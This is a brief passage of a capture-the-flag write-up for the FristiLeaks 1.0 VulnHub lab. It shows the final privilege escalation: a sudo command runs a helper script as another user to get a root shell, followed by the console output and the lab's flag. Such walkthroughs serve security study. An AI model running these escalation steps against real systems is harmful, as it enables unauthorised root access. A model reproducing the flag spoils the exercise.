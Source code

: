 To get root we need to run **doCom** script as user **fristi** and add bash as parameter.

```console
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash
bash-4.1# id
id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)


bash-4.1# cd /root
cd /root
bash-4.1# ls
ls
fristileaks_secrets.txt
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```
